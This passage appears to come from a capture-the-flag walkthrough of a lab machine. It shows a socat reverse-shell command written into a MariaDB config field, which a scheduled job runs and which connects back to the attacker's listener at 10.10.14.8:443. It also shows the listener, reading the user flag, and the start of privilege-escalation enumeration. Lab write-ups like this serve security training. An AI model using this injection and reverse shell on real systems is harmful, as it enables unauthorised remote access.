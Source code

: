     
    
    MariaDB [neddy]> update config set option_value = "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:443" where id = 86;
    Query OK, 1 rows affected (0.00 sec)
    Rows matched: 1  Changed: 1  Warnings: 0
    
    MariaDB [neddy]> select * from config where id = 86;
    +----+--------------+------------------------------------------------------------------------+
    | id | option_name  | option_value                                                           |
    +----+--------------+------------------------------------------------------------------------+
    | 86 | checkrelease | socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:443 |
    +----+--------------+------------------------------------------------------------------------+
    1 row in set (0.00 sec)
    

A minute later I check it again, and it’s been reset:

    
    
    MariaDB [neddy]> select * from config where id = 86;
    +----+--------------+-----------------------------------------------------+
    | id | option_name  | option_value                                        |
    +----+--------------+-----------------------------------------------------+
    | 86 | checkrelease | /home/guly/checkbase.pl;/home/guly/checkplugins.pl; |
    +----+--------------+-----------------------------------------------------+
    1 row in set (0.00 sec)
    

And I have a shell on my listener:

    
    
    root@kali# socat file:`tty`,raw,echo=0 tcp-listen:443,reuseaddr
    guly@unattended:~$ id
    uid=1000(guly) gid=1000(guly) groups=1000(guly),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),47(grub),108(netdev)
    

From there I can grab `user.txt`:

    
    
    guly@unattended:~$ cat user.txt 
    9b413f37...
    

## Priv: guly –> root

### Enumeration

It’s easy to miss the necessary bits for this privesc in standard enumeration.
The first hint comes back to the first command I run on every box:

    
    
    guly@unattended:/dev$ id                            
    uid=1000(guly) gid=1000(guly) groups=1000(guly),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),47(grub),108(netdev)
    